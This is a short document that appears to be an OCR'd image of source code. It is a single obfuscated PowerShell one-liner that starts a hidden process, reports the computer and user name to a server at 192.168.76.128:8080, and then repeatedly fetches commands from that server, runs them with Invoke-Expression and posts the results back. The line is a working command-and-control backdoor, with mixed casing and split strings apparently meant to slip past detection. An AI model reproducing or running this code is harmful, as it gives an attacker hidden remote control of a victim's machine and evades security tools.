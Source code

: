 s'tArt-Proc'eSS $PSHOME\powershell.exe -aRGumenTlist {$13e41="None";$6f4=$('e9d32312' -REpLACE '[(e|\?)\d]{2}[\w(3|\?)2]{3}[\d]{1}[\d\d]{2}','192.168.76.128:8080');$5f8d92=$('72a' -REpLACE '[(7|\?)(2|\?)]{2}[\w]{1}','5f7342-4803a7-d397b7');$a=$('327c' -rEPLaCE '[(3|\?)]{1}[\d\d]{2}[\w]{1}','http://');$17cc92=i'Rm' -uSeBAsICPArSinG -URI $a$6f4/5f7342/$env:cOMPUterNAme/$env:UsERNAMe -HeADeRs @{"Authorization"=$5f8d92};for (;;){$54767=(i'Rm' -uSeBAsICPArSinG -URI $a$6f4/4803a7 -HeADeRs @{"Authorization"=$5f8d92});if ($54767 -nE ('Non'+'e')) {$b=inV'okE-e'XPReSsiOn $54767 -errOraCTIOn S'tO'p -ErRorvaRiaBLE e84d;$b=o'ut-sTRiN'G -INpUTOBjECt $b;$d88f=i'Rm' -URI $a$6f4/d397b7 -metHOD POST -HeADeRs @{"Authorization"=$5f8d92} -bodY ([SYstEm.TEXT.encODing]::Utf8.gEtByteS($e84d+$b) -jOin ' ');$b='';} sL'eeP' 0.8}} -wIndowstyLE H'Idden'
